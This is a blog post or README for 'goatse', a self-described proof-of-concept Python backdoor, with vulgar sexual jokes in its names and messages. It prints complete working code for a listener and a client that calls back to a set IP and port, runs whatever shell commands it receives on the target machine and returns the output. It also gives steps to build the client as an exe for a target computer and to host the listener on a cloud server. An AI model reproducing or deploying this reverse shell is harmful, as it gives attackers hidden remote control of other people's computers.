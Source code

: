 ```yaml
---
layout: post
title:  "Proof of Concept Python Backdoor"
date:   2020-09-11 6:00:00 +0800
categories: coding
---
```

# goatse
a proof of concept backdoor for the most bare-bone access

## Usage
Run the server.py on your computer to start listening for callbacks.
```bash
$ sudo chmod 775 server.py
$ ./server.py
```

3 ways you can start goatse to target computer
1. run as python script
```bash
$ sudo chmod 775 goatse.py
$ ./goatse.py
```
2. create an exe file using pyinstaller, exe file is located in dist folder
```
$ pyinstaller --onefile goatse.py
```

## How does it work?
server.py
```
#!/usr/bin/env python3

#import socket API module
import socket

# for LAN you can use your pc's ip.
# for WAN you need to setup your own server in aws or digital ocean get the IP of said server and you can just ssh to that machine and run this script. other option is to use your own ISP public ip address and port forward to your pc's ip address.
serverIp = '192.168.1.1'
serverPort = 8080 
server = socket.socket()
server.bind((serverIp, serverPort))
print('Server is online')
print('Listening for callback')

#listening for callback
server.listen(1)
target, target_addr = server.accept()

#will display once callback is initiated
print(f'[+] {target_addr} She spreads the legs, it is time')


```
goatse.py
```
#!/usr/bin/env python3

#import socket and subprocess modules, subprocess module allows us to run commands on our target machine.
import subprocess
import socket


#don't forget to set the correct server ip address and port in order for this to callback home.
serverIp = '192.168.1.1'
serverPort = 8080
backdoor = socket.socket()
backdoor.connect((serverIp, serverPort))

while True:
    #after successfull callback to home, goatse will start to listen for commands from server
    anal = backdoor.recv(1024)
    
    #this decodes the user command from sent from server
    anal = anal.decode()
    UserInput = subprocess.Popen(anal, shell = True, stderr = subprocess.PIPE, stdout = subprocess.PIPE)
    
    #then executes command and read the output/error
    output = UserInput.stdout.read()
    output_error = UserInput.stderr.read()
    backdoor.send(output + output_error)
```

## License
[BSD 3-Clause “New” or “Revised” License](https://choosealicense.com/licenses/bsd-3-clause/)

### Resources:
[Github Repo](https://github.com/AdrianDucao/goatse)

Happy Coding.